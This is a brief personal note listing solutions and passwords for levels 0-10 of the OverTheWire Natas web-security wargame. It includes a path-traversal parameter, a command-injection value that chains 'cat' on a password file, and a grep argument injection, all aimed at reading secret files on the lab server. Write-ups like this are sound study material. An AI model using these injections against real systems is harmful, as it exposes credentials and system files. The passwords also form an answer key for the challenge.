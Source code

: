 ```yaml
---
title: OverTheWire Natas
date: 2021-11-16T21:07:41+01:00
tags: ['cs/security', 'cs/web']
---
```


-   **natas0**: in comments (gtVrDuiDfck831PqWsLEZy5gyDz1clto)
-   **natas1**: in comments too (ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi)
-   **natas2**: /files/users.txt (sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14)
-   **natas3**: /robots.txt (Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ)
-   **natas4**: Referrer header (iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq)
-   **natas5**: cookie loggedin (aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1)
-   **natas6**: includes/secret.inc (7z3hEENjQtflzgnT29q7wAvMNfZdh0i9)
-   **natas7**: ?page=../../../../etc/natas~webpass~/natas8 (DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe)
-   **natas8**: `echo 'echo base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));' | php -a` (W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl)
-   **natas9**: `;cat /etc/natas_webpass/natas10; ls` (nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu)
-   **natas10**: `-v test /etc/natas_webpass/natas11` (U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK)